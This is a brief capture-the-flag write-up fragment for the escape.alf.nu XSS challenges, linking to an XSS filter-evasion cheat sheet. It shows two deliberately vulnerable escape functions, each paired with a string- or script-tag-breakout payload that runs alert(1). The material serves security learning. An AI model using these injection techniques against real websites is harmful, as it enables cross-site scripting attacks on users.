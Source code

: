http://blog.7ell.me/2016/11/06/%E8%BD%AC-XSS-Filter-Evasion-Cheat-Sheet/
http://blog.spoock.com/2016/03/10/escape-alf-nu-xss-challenges-writeups/
function escape(s) {
	//Warmup.
	return '<script>console.log("'+s+'")</script>';
}

escape('");alert(1)//')
"<script>console.log("");alert(1)//")</script>"


function escape(s) {
	// Escaping scheme courtesy of Adobe Systems, Inc.
	s = s.replace(/"/g, '\\"');
	return '<script>console.log("' + s + '");</script>';
}
</script><script>alert(1)<!--







